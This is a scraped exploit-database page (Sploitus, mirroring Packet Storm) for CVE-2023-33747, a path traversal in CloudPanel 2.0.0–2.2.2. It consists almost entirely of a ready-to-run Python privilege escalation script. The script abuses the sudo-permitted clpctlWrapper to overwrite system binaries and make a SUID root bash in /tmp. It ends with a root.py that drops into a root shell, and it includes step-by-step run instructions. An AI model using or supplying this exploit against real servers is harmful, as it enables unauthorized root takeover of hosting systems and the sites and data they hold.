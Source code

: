 ```yaml
---
title: CloudPanel 2.2.2 Privilege Escalation / Path Traversal exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172768&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-08
fetch_date: 2025-10-04T11:44:31.103891
---
```


# CloudPanel 2.2.2 Privilege Escalation / Path Traversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CloudPanel 2.2.2 Privilege Escalation / Path Traversal CVE-2023-33747

2023-06-07 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172768
# Title : Privilege Escalation through path traversal
# CVE ID : CVE-2023-33747
# Exploit Author : EagleEye
# Github : https://github.com/EagleTube/CloudPanel/tree/main/CVE-2023-33747
# Version Affected : CloudPanel v2.0.0 - v2.2.2
# Vendor : CloudPanel.io
# Date : 31/05/2023 , 12:00 PM
# Step : Login as ssh as user, and run `python3 CVE-2023-33747_GetRoot.py`
# Date : 06 June 2023

# CVE-2023-33747_GetRoot.py
import os
import subprocess

def exec_command(command):
process = subprocess.Popen(command.split(), stdout=subprocess.PIPE)
output, error = process.communicate()

def exploit():
print('[+] Overriding file to writable')
exec_command('sudo /usr/bin/clpctlWrapper system:permissions:reset --files=777 --path=../../../../../../../../../../usr/bin/clpctlWrapper')
print('[+] Backup clpctlWrapper into tmp...')
exec_command('cp /usr/bin/clpctlWrapper /tmp/clpctlWrapper')
print('[+] Replacing clpctlWrapper with cp...')
exec_command('cp /bin/bash /tmp/bash')
print('[+] Assigning suid to /tmp/bash...')
exec_command('cp /bin/chown /usr/bin/clpctlWrapper')
exec_command('sudo /usr/bin/clpctlWrapper root:root /tmp/bash')
exec_command('cp /bin/chmod /usr/bin/clpctlWrapper')
exec_command('sudo /usr/bin/clpctlWrapper 6755 /tmp/bash')
exec_command('cp /tmp/clpctlWrapper /usr/bin/clpctlWrapper')
print('[+] Popping root shell...')
os.system('/tmp/bash -p -c "chown root:root /usr/bin/clpctlWrapper && chmod 0700 /usr/bin/clpctlWrapper && python3 root.py"')

if __name__ == '__main__':
exploit()

# root.py
import os
os.setreuid(0,0)
os.setregid(0,0)os.system('/bin/bash')
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)